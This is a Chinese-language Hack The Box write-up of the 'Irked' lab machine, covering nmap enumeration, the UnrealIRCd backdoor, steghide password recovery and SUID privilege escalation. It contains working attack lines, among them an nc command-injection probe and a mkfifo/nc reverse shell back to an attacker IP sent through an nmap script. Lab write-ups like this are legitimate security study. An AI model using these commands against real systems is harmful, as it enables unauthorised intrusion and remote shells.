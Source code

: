 ```yaml
---
title: Irked Writeup
date: 2020-11-30 22:23:47
category: Hack The Box
---
```


# Irked Writeup

![](./0.png)

## 0x00 TODO

跑一下 LinEnum.sh 看下能不能跑出 `/home/djmardov/.backup` 文件。

## 0x01 信息收集

![](./1.png)


## 0x02 枚举
``` bash
nmap -d -p6697 --script=irc-unrealircd-backdoor.nse 10.10.10.117
```
扫到 unrealircd 后门。
![](./5.png)
> 实际上这里要开启后门只要 nc 命令过去就可以了。**需要登陆吗，待确认**
> ``` bash
> echo "AB; ping -c 4 10.10.14.21;"|nc 10.10.10.117 6697
> ```

## 0x03 立足点
unrealircd 后门利用，执行反弹 shell 命令拿到普通用户 `ircd`权限。
``` bash
nmap -d -p6697 --script=irc-unrealircd-backdoor.nse --script-args=irc-unrealircd-backdoor.command='rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.21 4444 >/tmp/f &' 10.10.10.117
```
![](./6.png)
`ircd` 并没有 user flag，找到 `djmardov` 用户 `./documents`，无权限打开 `user.txt`，看了 `sudo -l` 没有可以切换的姿势，在 documents 下 `ls -la` 发现隐藏文件 `.backup`，cat 一下是一个 `xxx step backup pw`，像是某个密码，用来 `ssh djmardov@10.10.10.117` 不对，于是 google 一下发现跟 `stephide` 这个工具有关。

`stephide` 是用于将**文件隐藏在图片、音频**的工具。
``` bash
stephide extract -sf irked.jpg -p password  # 提取文件
steghide embed -ef secret.txt -cf irked.jpg # 隐藏文件，自己要验一下
# 会被提示输入口令
Enter passphrase:Re-Enter passphrase:embedding "secret.txt" in "irked.jpg"... done
```
提取出来看到 pass.txt，`ssh djmardov@10.10.10.117` 登录成功，拿到 `user.txt`。

## 0x04 提权
### 1、Apache JSP webshell 
查看 html 目录是否可写，因为这里 apache 是 root 启动，有 webshell 就有 root，但是 /var/www/html 目录不可写。

### 2、SUID 
#### 2.1、exim4
exim4 - 4.84-2 看有提权漏洞，实则兔子洞，很坑。

![](./7.png)
#### 2.2、listusers
另辟蹊径，轻松提权。

![](./10.png)
> 因为这里有提示 `listusers not found`，才会让人注意到这里执行了一个文件 `/tmp/listusers`。
> 假如这个文件存在呢，没有提示，那要怎么知道执行了哪个文件？
> 
> 正确操作应该是把 viewuser 转 b64 提到本地做分析。
> ``` bash
> # 靶机二进制文件转 b64
> base64 -w /usr/bin/viewuser > b.64
> # 下载到本地解码 b64
> base64 -d b.64 > viewuser
> chmod +x viewuser
> strace ./viewuser # 看里面的执行逻辑 - 姿势1 易于阅读
> ltrace ./viewuser # 看里面的执行逻辑 - 姿势2
> ```
> 可以看到执行了具体哪个文件 `system("/tmp/listusers")`，最后做修改替换执行 `/bin/bash`。
> (图)

## 0x05 攻击节点
#### 信息收集 -> nmap 漏洞扫描 -> 6697.unrealircd(ircd) -> viewuser 服务执行文件(root)

## 0x02 学到什么
#### 1、善用 `nmap --script vuln`。
#### 2、警惕兔子洞，走不通要果断放弃，另辟蹊径。